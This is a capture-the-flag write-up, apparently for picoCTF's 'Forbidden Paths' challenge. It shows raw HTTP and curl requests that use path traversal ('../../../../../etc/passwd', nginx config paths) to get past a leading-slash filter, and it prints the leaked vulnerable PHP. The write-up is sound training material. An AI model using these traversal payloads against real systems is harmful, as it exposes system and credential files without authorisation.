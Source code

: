 # Forbidden Paths

Can you get the flag? Here's the [website](http://saturn.picoctf.net:53295/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Solucion
```bash
POST /read.php HTTP/1.1
Host: saturn.picoctf.net:53295
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://saturn.picoctf.net:53295
Connection: close
Referer: http://saturn.picoctf.net:53295/
Upgrade-Insecure-Requests: 1

filename=../../../../../etc/passwd&read=

```

```
filename=../../../../../usr/share/nginx/html/read.php&read=

<br>  <body>
<br>    
<br>    <?php
<br>      $firstChar = $_POST['filename'][0];
<br>      
<br>      if( strcmp($firstChar, '/') == 0 )
<br>      {
<br>        echo "Not Authorized";
<br>      }
<br>      else
<br>      {
<br>        if (file_exists($_POST['filename'])) {
<br>
<br>          $file = fopen($_POST['filename'], 'r');
<br>
<br>          while(! feof($file))
<br>          {
<br>            $line = fgets($file);
<br>            echo $line. "<br>";
<br>          }
<br>
<br>          fclose($file);
<br>        } else {
<br>          echo "File does not exist";
<br>        }
<br>      }
<br>    ?>
<br>  </body>

```


```
curl http://saturn.picoctf.net:53295/read.php -d 'filename=../../../../../etc/nginx/nginx.conf'

```
```
curl http://saturn.picoctf.net:53295/read.php -d 'filename=../../../../../etc/nginx/conf.d/default.conf'
```


Referencias

- https://www.plesk.com/blog/various/nginx-configuration-guide/
